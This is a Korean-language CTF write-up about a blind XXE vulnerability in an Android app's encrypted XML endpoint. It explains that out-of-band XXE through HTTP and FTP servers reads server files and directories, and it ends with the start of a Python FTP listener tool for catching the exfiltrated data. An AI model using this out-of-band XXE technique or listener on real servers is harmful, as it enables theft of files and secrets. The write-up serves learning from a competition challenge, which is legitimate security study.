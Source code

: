```java
                            bufferedReader.close();
                            outputStream.close();
                            socket.close();
                            return;
                        }
                    }
                } catch (Exception e) {
                    System.err.println(e);
                }
            }
        });
        thread.start();
        try {
            thread.join();
        } catch (InterruptedException e) {
            e.printStackTrace();
        }
        return jSONObjectArr[0];
    }
}
```   
`SendData.send((Integer) 1, MainActivity.this.getDeviceInfo());` 코드는 `MainActivity.java` 파일에서 디바이스 정보를 가져오는 코드이다. 이를 실행하면 어떤 요청이 가는지 `SendData.java` 코드를 분석해봤다.     
    
그 결과, `/fsalke2j9sdfcjlz/yQOIIWf3PzTrvh0NdUByunaZZCGTYA` 경로에 주석처리된 부분과 같이 PUT 요청을 보내고 Body에 XML 데이터를 AES 암호화하여 전송하는 것을 알 수 있었다. 그리하여, XXE Injection을 시도해보니 응답 값이 `true`를 반환하였다. 이를 통해, `Blind XXE Injection` 취약점을 이용하는 문제임을 깨달아 External Entity에 웹훅 사이트로 요청을 보내봤다. 하지만, 어떠한 요청도 오지 않았고, 그렇게 삽질을 하다가 대회가 끝났다.    
     
대회가 끝나고 보니, 웹훅 사이트가 `https`로 되어있으면 딜레이로 인해 요청이 안온다고 한다...(?)      
        
결론적으로, `http`를 사용하는 웹 애플리케이션 서버와 `ftp`서버를 사용해 `Out of band XXE`공격을 시도해주면 `file://`로 `Directory Listing`, `Read File`이 가능하여 플래그를 획득할 수 있다.  
    
### Exploit Code      
    
#### 1. FTP Server: https://github.com/lc/230-OOB (port: 8000)   
    
```python
#!/usr/bin/env python3
import socket
import sys
import argparse

parser = argparse.ArgumentParser(description='An Out-of-Band XXE tool by Corben Leo')
parser.add_argument('port',type=int,help="Port for the FTP server to listen on (2121 / 21)")
args = parser.parse_args()

HOST = ''
PORT = args.port

welcome = b'220 oob-xxe\n'
ftp_catch_all_response = b'230 more data please!\n'
ftp_user_response = b'331 hello world!\n'
ftp_pass_response = b'230 my password is also hunter2!\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

def main():
    try:
        s.bind((HOST, PORT))
    except socket.error as msg:
        print('[+] ERROR: Bind failed. ')
        sys.exit()
```